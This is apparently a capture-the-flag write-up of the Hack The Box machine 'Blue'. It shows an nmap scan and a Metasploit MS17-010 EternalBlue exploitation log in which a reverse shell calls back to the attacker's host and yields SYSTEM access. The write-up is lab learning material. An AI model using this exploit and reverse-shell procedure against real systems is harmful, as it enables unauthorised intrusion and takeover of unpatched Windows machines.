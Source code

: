 #Title: Blue
Date: 2019-10-20

This was a nice and easy one.

## Enumeration

Once again, a port scan to start off, I've been expirementing with different scans with each of these. At this point with the easier boxes it's not all too important. There's not likely anything too tricky going on. 

    $ nmap -A -p- -T4 blue
    Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-20 11:52 CDT
    Nmap scan report for blue (10.10.10.40)
    Host is up (0.040s latency).
    Not shown: 65526 closed ports
    PORT      STATE SERVICE      VERSION
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
    49156/tcp open  msrpc        Microsoft Windows RPC
    49157/tcp open  msrpc        Microsoft Windows RPC
    Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: -24m05s, deviation: 34m37s, median: -4m06s
    | smb-os-discovery: 
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: haris-PC
    |   NetBIOS computer name: HARIS-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2019-10-20T17:50:25+01:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2019-10-20T16:50:26
    |_  start_date: 2019-10-20T16:45:06

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 112.46 seconds

The machine is running Windows 7 SP1. Between that and the name of this box I thought EternalBlue might be something to keep in mind. This was the exploit used by __WannaCry__. 

## Thanks, Shadow Brokers

So I gave that a shot:

    msf5 exploit(windows/smb/ms17_010_eternalblue) > run

    [*] Started reverse TCP handler on 10.10.14.23:4444 
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445 - Connecting to target for exploitation.
    [+] 10.10.10.40:445 - Connection established for exploitation.
    [+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
    [*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
    [*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
    [*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
    [+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
    [*] 10.10.10.40:445 - Starting non-paged pool grooming
    [+] 10.10.10.40:445 - Sending SMBv2 buffers
    [+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.10.10.40:445 - Sending final SMBv2 buffers.
    [*] 10.10.10.40:445 - Sending last fragment of exploit packet!
    [*] 10.10.10.40:445 - Receiving response from exploit packet
    [+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.10.10.40:445 - Sending egg to corrupted connection.
    [*] 10.10.10.40:445 - Triggering free of corrupted buffer.
    [*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.40:49158) at 2019-10-20 13:35:12 -0500
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

    C:\Windows\system32

    c:\Users>whoami	
    whoami
    nt authority\system

I got root.

## Endnotes

Not much to say about this one other than it was a super easy one. The default payload just gave me a shell, but I exited and set the payload to a meterpreter just because - and that worked too. 




	
